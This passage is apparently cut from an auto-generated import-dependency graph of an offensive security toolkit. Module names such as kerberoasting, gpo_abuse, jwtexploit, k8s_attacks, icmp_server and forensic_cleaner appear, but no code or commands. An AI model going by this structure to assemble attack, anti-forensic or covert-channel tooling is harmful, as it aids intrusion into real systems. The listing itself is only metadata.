"source": "modules/finding_lifecycle.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/finding_lifecycle.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/finding_lifecycle.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/finding_lifecycle.py", "target": "modules.osint_enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/forensic_cleaner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/forensic_cleaner.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/forensic_cleaner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/forensic_cleaner.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gcp_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gcp_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gcp_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/generate_tools.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/generate_tools.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/goals.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/goals.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/goals.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gpo_abuse.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gpo_abuse.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/gpo_abuse.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hash_cracker.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/hive_invoke.py", "target": "toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "rich.markdown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_code_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "rich.markdown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "watchdog.events"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_logs_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "rich.markdown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "scapy.layers.tls.record"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/ia_network_analysis.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "zlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_client.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "zlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/icmp_server.py", "target": "logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/img2bin.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/img2bin.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/img2bin.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/__init__.py", "target": "modules.integrations.misp_export"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/__init__.py", "target": "modules.integrations.nuclei_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/__init__.py", "target": "modules.integrations.searchsploit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/misp_export.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_bridge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules.integrations.nuclei_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/nuclei_parser.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/integrations/searchsploit.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intel_fusion.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "collections"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.estorides_importer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.integrations.nuclei_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.integrations.nuclei_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.yara_scanner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intelligence_engine.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/intercept.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/jsonl_tail.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/jsonl_tail.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/jsonl_tail.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/jwtexploit.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/jwtexploit.py", "target": "jwt"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/k8s_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/k8s_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/k8s_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberoasting.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberoasting.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberoasting.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberoasting.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberoasting.py", "target": "modules.kerberos_core"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "cryptography.hazmat.primitives.kdf.pbkdf2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "pyasn1.codec.der"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "pyasn1.codec.der"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "pyasn1.type"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_core.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kerberos_tickets.py", "target": "modules.kerberos_core"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kill_chain_viz.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/killchain.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "kivy.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "kivy.uix.boxlayout"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "kivy.uix.button"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "kivy.uix.label"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/kivi.py", "target": "kivy.uix.textinput"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.agent_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_agent.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_bridge.py", "target": "modules.traffic_recorder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_cli_bridge.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_engine.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_installer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_installer.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_installer.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_installer.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/lazy_intel.py", "target": "time"}, {"confidence": 